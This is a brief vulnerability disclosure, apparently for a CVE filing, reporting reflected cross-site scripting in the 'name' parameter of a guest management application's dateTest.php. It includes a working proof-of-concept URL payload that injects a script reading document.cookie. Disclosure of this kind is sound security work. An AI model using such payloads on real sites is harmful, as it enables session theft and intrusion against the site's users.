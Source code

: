 BUG_Author: DRXYJ

Vulnerability File: /guestmanagement/dateTest.php

GET parameter "name" exists reflected cross-site scripting vulnerability

Payload: /guestmanagement/dateTest.php?name="><script>alert(document.cookie)</script>&name1=Submit

The js code is successfully executed and the cookie value is returned, which proves that there is a reflected cross-site scripting vulnerability.

![image](https://github.com/xryj920/CVE/blob/main/xss.png)
